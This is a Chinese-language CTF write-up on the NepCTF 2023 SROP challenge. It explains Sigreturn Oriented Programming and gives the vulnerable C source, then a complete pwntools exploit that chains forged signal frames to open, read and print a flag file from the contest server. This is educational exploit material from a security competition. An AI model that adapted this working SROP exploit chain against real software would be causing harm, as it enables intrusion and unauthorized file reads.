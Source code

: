 ```yaml
---
title: SROP初见杀-NepCTF2023
date: 2023-08-12 20:45:49
tags:
  - PWN
categories:
  - CS
---
```


这次比赛第一题就是很明显的**SROP**，正好啥也不会，学习了一下

# SROP

**SROP**全称为**Sigreturn Oriented Programming**，其攻击核心为通过伪造一个**Signal Frame**（以下简称**sigFrame**）在栈上，同时触发**sigreturn**系统调用，让内核为我们恢复一个sigFrame所描述的进程，如一个shell、一个wrtie系统调用打印栈地址等，同时通过对sigFrame中rsp和rip的修改，连接多个sigFrame，可通过多次触发sigreturn系统调用，依次恢复多个sigFrame，实现不同的功能，构成SROP攻击。一个sigFrame可理解为一个进程被挂起时，用于保存进程的数据结构，当进程恢复时，通过触发sigreturn来恢复sigFrame，从而恢复一个进程。

以上内容是抄的，说白了就是：进程受到一个signal进入中断，内核会保存上下文（寄存器状态之类的，这个上下文存在**sigFrame**中），随后进入用户态执行处理函数，处理完最后又进入内核态恢复上下文

![image-20230812205434238](../img/SROP.assets/image-20230812205434238.png)

而这个保存上下文的sigFrame完全在**用户空间**，并且内核对进程挂起时保存的sigFrame以及恢复时还原的sigFrame**没有做任何关联**，这导致sigFrame可以被伪造

![image-20230812205639153](../img/SROP.assets/image-20230812205639153.png)

上图是64位的sigFrame结构。恢复上下文之前，会调用处理函数**Signal Handler**，该函数最后一个指令是`ret`，此时`rsp`正好指向sigFrame的栈顶，也就是存有函数`rt_sigreturn`地址的位置。随后调用`rt_sigreturn`，通过该函数完成上下文的恢复。

因此，我们可以在`rsp`附近伪造sigFrame，通过调用`rt_sigreturn`完成寄存器的布置

调用可以直接写内存，更常见的是进行调用号为0xf的系统调用

> 小技巧：系统调用号可以通过`cat /usr/include/asm/unistd_64.h`查看

另外，pwntools中的`SigreturnFrame()`可以方便完成寄存器的布置

# Nepctf2023-SROP

源码都喂我嘴里了

```c
//gcc -no-pie pwn.c -fno-stack-protector -z now -o pwn  -lseccomp
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <syscall.h>
#include <seccomp.h>
#include <linux/seccomp.h>

char buf[0x30]="welcome to NepCTF2023!\n";

int seccomp(){
    scmp_filter_ctx ctx;
    ctx = seccomp_init(SCMP_ACT_KILL);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(rt_sigreturn), 0);
    seccomp_load(ctx);
    return 0;
}

int sys(){
    return 15;
}

int main(){
     char bd[0x30];
     seccomp();
     syscall(1,1,buf,0x30);
     return syscall(0,0,bd,0x300);
}
```

显然需要打一个orw

注意这里有一个坑，众所周知，`syscall`的系统调用号是通过`rax`传递，然而我们反汇编之后

![image-20230812211245122](../img/SROP.assets/image-20230812211245122.png)

令人意外的是，这里的`syscall`都是通过`rdi`传调用号的，猜测与这里使用`call syscall`而非直接使用`syscall`有关

既然不用`rax`传调用号，那题目中的`sys()`函数也就没有意义了，好在能找到`pop rdi`的gadgets，可以任意布置

我的思路是，先打一次srop，把flag写到bss段，顺便把栈迁移过去，随后挨着打orw



**伪造sigFreame**时需要**格外注意**

`cs` `gs` `fs` `ss`需要**保持不变**！否则会报错！



本人就在这里排查了很久

可以按照如下写法

`sig.csgsfs = (0x002b * 0x1000000000000) | (0x0000 * 0x100000000) | (0x0000 * 0x10000) | (0x0033 * 0x1)`

从左往右依次为`cs` `gs` `fs` `ss`

exp如下

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import*

context(os = 'linux', arch = 'amd64', log_level = 'debug', terminal = ['tmux', 'new-window'])
def debug(cmd=''):
	cmd += "b *0x0000000004007AE\n"
	gdb.attach(p, cmd)
	pause()

host = "nepctf.1cepeak.cn"
port = 30551
#p = process("./pwn")
p = remote(host, port)

sig = 0x0000000000400750
pop_rdi = 0x0000000000400813
syscall = 0x00000000004007A8
buf = 0x0000000000601020

p.recv()
payload = "\x00"*0x38 +p64(pop_rdi)+p64(0xf)
sig = SigreturnFrame()
sig.uc_flags = syscall
sig.rax = 0
sig.rdi = 0
sig.rsi = 0
sig.rdx = buf
sig.rcx = 0x1000
sig.rip = syscall
sig.rsp = buf+0x10
sig.csgsfs = (0x002b * 0x1000000000000) | (0x0000 * 0x100000000) | (0x0000 * 0x10000) | (0x0033 * 0x1)
payload += str(sig)

p.send(payload)

# debug()

payload = "flag\x00\x00\x00\x00"
payload += p64(pop_rdi) + p64(0xf)
sig = SigreturnFrame()
sig.uc_flags = syscall
sig.rax = 0
sig.rdi = 2
sig.rsi = buf
sig.rdx = 0
sig.rcx = 0
sig.rip = syscall
sig.rsp = buf+0x120
sig.rbp = buf+0x120
sig.csgsfs = (0x002b * 0x1000000000000) | (0x0000 * 0x100000000) | (0x0000 * 0x10000) | (0x0033 * 0x1)
payload += str(sig)

payload = payload.ljust(0x120,"\x00")
payload += p64(buf+0x120)#rbp
payload += p64(pop_rdi) + p64(0xf)
sig = SigreturnFrame()
sig.uc_flags = syscall
sig.rax = 0
sig.rdi = 0
sig.rsi = 3
sig.rdx = buf
sig.rcx = 0x100
sig.rip = syscall
sig.rsp = buf+0x240
sig.rbp = buf+0x240
sig.csgsfs = (0x002b * 0x1000000000000) | (0x0000 * 0x100000000) | (0x0000 * 0x10000) | (0x0033 * 0x1)
payload += str(sig)

payload = payload.ljust(0x240,"\x00")
payload += p64(buf+0x240)#rbp
payload += p64(pop_rdi) + p64(0xf)
sig = SigreturnFrame()
sig.uc_flags = syscall
sig.rax = 0
sig.rdi = 1
sig.rsi = 1
sig.rdx = buf
sig.rcx = 0x100
sig.rip = syscall
sig.rsp = buf+0x240
sig.rbp = buf+0x240
sig.csgsfs = (0x002b * 0x1000000000000) | (0x0000 * 0x100000000) | (0x0000 * 0x10000) | (0x0033 * 0x1)
payload += str(sig)


p.send(payload)

p.interactive()
```


